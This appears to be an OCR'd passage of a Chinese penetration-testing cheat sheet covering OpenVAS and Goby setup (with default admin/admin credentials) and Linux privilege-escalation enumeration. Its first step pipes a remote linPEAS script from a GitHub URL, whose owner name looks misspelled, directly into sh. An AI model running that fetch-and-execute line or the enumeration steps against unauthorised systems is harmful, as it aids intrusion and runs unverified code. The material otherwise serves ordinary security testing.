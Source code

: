 ### openvas
- [openvas](https://github.com/mikesplain/openvas-docker)

```sh
docker run -d -p 443:443 --name openvas mikesplain/openvas
# 访问 https://127.0.0.1:443
Username: admin
Password: admin
```

### Goby
- [Goby](https://gobies.org/sale)

## 提权

### Linux 提权


1. 自动化工具
```bash
# 使用 linPEAS 自动化提权扫描工具
curl https://raw.githubusercontent.com/carlospolo0/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```
2. 操作系统信息
```bash
cat /etc/issue                  # 查看系统发行版信息
cat /etc/*-release              # 查看详细的发行版信息
lsb_release -a                  # 显示LSB（Linux标准基础）信息
uname -a                        # 显示所有系统信息（内核版本、主机名等）
uname -mrs                      # 显示内核版本和系统架构
getconf LONG_BIT                # 检查系统是32位还是64位
```
3. 环境变量
```bash
cat /etc/profile                # 系统级环境变量
cat /etc/bashrc                 # 系统级bash配置
cat ~/.bash_profile             # 用户级bash配置文件
cat ~/.bashrc                   # 用户级bash配置
cat ~/.bash_logout              # 用户退出时的bash配置
env                             # 显示当前环境变量
set                             # 显示当前shell变量和函数
```
4. 网络信息
```bash
ifconfig -a                     # 显示所有网络接口信息
cat /etc/network/interfaces     # 查看网络接口配置（Debian系）
cat /etc/sysconfig/network      # 查看网络配置（RedHat系）
```
5. 服务与进程信息
```bash
ps aux                         # 显示所有运行中的进程（BSD格式）
ps -elf                        # 显示所有运行中的进程（标准格式）
top                            # 实时显示进程状态
```

